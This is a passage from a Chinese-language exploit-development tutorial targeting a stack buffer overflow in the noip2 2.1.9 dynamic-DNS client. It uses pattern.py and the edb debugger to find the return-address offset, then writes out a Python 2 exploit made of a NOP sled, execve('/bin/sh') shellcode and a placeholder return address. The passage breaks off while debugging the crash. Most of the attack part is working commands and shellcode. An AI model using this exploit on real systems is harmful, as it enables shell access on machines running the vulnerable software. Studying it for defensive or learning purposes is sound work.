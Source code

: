 # III、调试程序
## ① 计算返回地址偏移
推荐使用 pattern.py 脚本进行计算。
**1、构造唯一字符串**
命令：
```
./pattern.py 350
```
构造长度为 350 的字符串
**2、使用此参数运行程序**
命令：
```
edb --run ./NO-IP/noip-2.1.9-1/binaries/noip2-i686 -i "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al"
```
结果：
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1f2cmauvlk6j30me0b741s.jpg)
**3、计算偏移**
命令：
```
pattern.py 0x396a4138
```
结果
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f2cmdujrasj30k601ldg7.jpg)

则shellcode可构造为：nops + shellcode + ip_addr，其中 nops + shellcode 长度为 296。

## ② 构造 exploit
### 1、初始 exploit
根据上述分析，构造如下 exploit
```
#!/usr/bin/env python2

p = ''
p += "\x90" * 251
p += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
p += "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
p += "\x80\xe8\xdc\xff\xff\xff/bin/sh"

p += "aaaa"

print p
```
### 2、调试程序，定位出错点
**（1）、edb 命令：**
```
edb --run ./NO-IP/noip-2.1.9-1/binaries/noip2-i686 -i "`./NO-IP/exploit.py`"
```
**（2）、定位**
 - F10 运行程序
 - F8 一路单步执行程序，直到溢出
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1f2cmx0k4l1j30kk06utaa.jpg)
